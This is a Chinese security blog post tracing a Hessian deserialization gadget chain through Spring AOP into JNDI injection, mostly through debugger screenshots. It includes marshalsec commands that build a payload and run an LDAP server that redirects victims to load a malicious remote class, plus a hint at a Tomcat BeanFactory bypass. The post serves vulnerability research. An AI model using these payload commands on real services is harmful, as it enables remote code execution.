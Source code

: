 ```yaml
---
layout:     post
title:      "Hessian反序列化——Spring AOP链分析"
subtitle:   ""
date:       2020-09-29 19:40:00
author:     "kuron3k0"
header-img: "img/home-bg.jpg"
tags:
    - Hessian
    - 漏洞分析
---
```


看完[Orange大佬的文章](https://devco.re/blog/2020/09/12/how-I-hacked-Facebook-again-unauthenticated-RCE-on-MobileIron-MDM/)，发现知识盲区，赶紧学习一下

## Hessian

一个基于http的RPC框架，轻量级的RMI，[这里](https://www.cnblogs.com/wynjauu/articles/9010719.html)是Hessian的一些简单的配置和使用

## 环境搭建

先简单搭个环境
![](/img/in-post/Hessian-RCE/main.png)

这里需要引入Hessian的包
```xml
<dependency>
    <groupId>com.caucho</groupId>
    <artifactId>hessian</artifactId>
    <version>4.0.38</version>
</dependency>
```

用marshalsec生成payload
```cmd
D:\tools>java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.Hessian SpringPartiallyComparableAdvisorHolder ldap://127.0.0.1:1388/Exp > expxp2
```

同样这个payload也需要有依赖包
```xml
<dependency>
    <groupId>org.springframework</groupId>
    <artifactId>spring-aop</artifactId>
    <version>5.0.0.RELEASE</version>
</dependency>
<dependency>
    <groupId>org.springframework</groupId>
    <artifactId>spring-context</artifactId>
    <version>4.1.3.RELEASE</version>
</dependency>
<dependency>
    <groupId>org.aspectj</groupId>
    <artifactId>aspectjweaver</artifactId>
    <version>1.6.10</version>
</dependency>
```

ldap服务器开起来
```cmd
D:\tools>java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServe
r http://127.0.0.1:9998/#Exp 1388
```

Exp类的代码如下
![](/img/in-post/Hessian-RCE/expclass.png)


## SpringPartiallyComparableAdvisorHolder利用链分析

直接把刚才生成的payload放到HessianInput.readObject，触发断点。


读取第一个字节判断为Map类型，调用readMap
![](/img/in-post/Hessian-RCE/hessianinput.png)

初始化Map的反序列化类
![](/img/in-post/Hessian-RCE/serializerfactory.png)

读取反序列化的数据并put进HashMap中
![](/img/in-post/Hessian-RCE/mapdeserializer.png)

put的时候，当key的hash一样，但是是不同对象的时候，触发了key对象的equal函数，此时key和k都是HotSwappableTargetSource
![](/img/in-post/Hessian-RCE/hotswappabletargetsource.png)

触发HotSwappableTargetSource对象中target（XString）的equals函数
![](/img/in-post/Hessian-RCE/equals1.png)

触发AspectJAwareAdvisorAutoProxyCreator$PartiallyComparableAdvisorHolder的toString
![](/img/in-post/Hessian-RCE/equals2.png)

进入AspectJPointcutAdvisor的getOrder函数
![](/img/in-post/Hessian-RCE/advisor.png)

AbstractAspectAdvice->getOrder
![](/img/in-post/Hessian-RCE/advice.png)

BeanFactoryAspectInstanceFactory->getOrder
![](/img/in-post/Hessian-RCE/aspectfactory.png)

SimpleJndiBeanFactory->getType
![](/img/in-post/Hessian-RCE/jndifactory.png)

SimpleJndiBeanFactory->doGetType
![](/img/in-post/Hessian-RCE/dogettype.png)

对传入的name参数，会调用isSingleton函数判断是否存在于shareableResources中，如果有的话进入SimpleJndiBeanFactory->doGetSingleton
![](/img/in-post/Hessian-RCE/dogetsingleton.png)

第一次进入的时候singletonObjects是不会有对应的jndi对象的，所以进入else分支，触发lookup
![](/img/in-post/Hessian-RCE/lookup.png)

到这里利用链其实可以算结束了，后面就是lookup的事情了。

## JNDI注入

之前也没了解过lookup之后发生了什么，刚好现在跟一下。


首先进入InitialContext.lookup，根据name获取协议（ldap、rmi等），生成对应的上下文
![](/img/in-post/Hessian-RCE/initcontext.png)
![](/img/in-post/Hessian-RCE/getschema.png)

然后这里我用的是ldap，所以进入了LdapURLContext的lookup
![](/img/in-post/Hessian-RCE/ldapctx.png)

这里根据name参数构建了ldapCtx，然后进入ldapCtx的lookup
![](/img/in-post/Hessian-RCE/generic.png)

继续进入ldapCtx的p_lookup函数
![](/img/in-post/Hessian-RCE/plookup.png)

ldapCtx->c_lookup
![](/img/in-post/Hessian-RCE/clookup.png)

在c_lookup中进入DirectoryManager的getObjectInstance，这时候已经从我们的ldap服务器取到了classFactoryLocation：http://127.0.0.1:9998
![](/img/in-post/Hessian-RCE/getobjinstance.png)

最后调用getObjectFactoryFromReference，实例化对象，从而触发Exp的恶意代码
![](/img/in-post/Hessian-RCE/newinstance.png)

当然这里ldap能用是因为开头设置了trustURLCodebase
![](/img/in-post/Hessian-RCE/trust.png)

我的jdk是1.8.0_265，正常在这里是会被VersionHelper12拦住的，无法load远程class
![](/img/in-post/Hessian-RCE/helper.png)

所以只能用本地的class，但是要利用的话，上面这个触发点就不太行了，因为几乎没有实例化时可以执行命令的类。但是留意到在DirectoryManager->getObjectFactoryFromReference里面实例化之后，还会调用factory的getObjectInstance，那如果有那么个类有getObjectInstance方法且有敏感操作的话，就可以利用了
![](/img/in-post/Hessian-RCE/exec2.png)

这里注意factory会被转成ObjectFactory，所以那个类需要继承ObjectFactory才行
![](/img/in-post/Hessian-RCE/cast.png)


公开的可利用类是org.apache.naming.factory.BeanFactory，属于Tomcat的库（欲听后事如何请听下回分解）

## Reference
- [https://devco.re/blog/2020/09/12/how-I-hacked-Facebook-again-unauthenticated-RCE-on-MobileIron-MDM/](https://devco.re/blog/2020/09/12/how-I-hacked-Facebook-again-unauthenticated-RCE-on-MobileIron-MDM/)
- [https://paper.seebug.org/1131/](https://paper.seebug.org/1131/)